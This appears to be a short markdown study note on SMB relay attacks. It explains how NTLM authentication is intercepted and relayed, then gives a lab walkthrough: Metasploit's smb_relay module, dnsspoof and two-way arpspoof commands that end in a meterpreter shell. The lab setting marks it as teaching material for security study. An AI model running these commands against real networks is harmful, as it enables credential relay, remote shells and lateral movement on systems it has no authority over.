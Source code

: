 ### SMB relay Attack
- An SMB relay attack is a type of network attack  where an attacker intercepts SMB (Server Message Block) traffic,maniputes it,and relays it to a legitimate server to gain unauthorized access to resources or perform malicious actions
- This type of attack is common in Windows networks,where SMB is used for file sharing,printer and other network sevices.
#### How SMB Relay Attacks Work
- Interception: The attacker sets up a man-in-the-middle position between the client and the server.This can be done using various techniques,such as ARP spoofing,DNS poisoning,or setting up a rogue smb server.
- Capturing authentication: When a client connects to a legitimate server via SMB,it sends authentication data.The attacker captures this data,which might include NTLM (NT LAN Manager) hashes.
- Relaying to a legitimate Server: Instead of decrypting the captured NTLM hash the attacker relays it to another server that trusts the source.This allows the attacker to impersonate the user whose hash was captured.
- Gain Access: If the relay is successful,the attacker can gian access to the resources on the sever.which might include sensitive files,databases or administrative privileges.This access could lead to further lateral movement within the network,compromising additional systems.

#### lab
- msfconsole
- use exploit/windows/smb/smb_relay
- set SRVHOST 172.16.5.10 [attacker_ip]
- set LHOST 172.16.5.10  [attacker_ip]
- set SMBHOST 172.16.5.10 [this ip is given ]
- run
- move to new tab in attacker kali machine
- echo "172.16.5.101 *.sportfee.com *.dns" >dns
- dnsspoof -i eth1 -f dns
- move to new tab
- echo 1 >/proc/sys/net/ipv4/ip_forward [hit enter]
- arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
- move new tab
- arpspoof -i eth1 -t 172.16.5.1 172.16.5.5 [hit enter]
- finally we find a meterpreter sessions

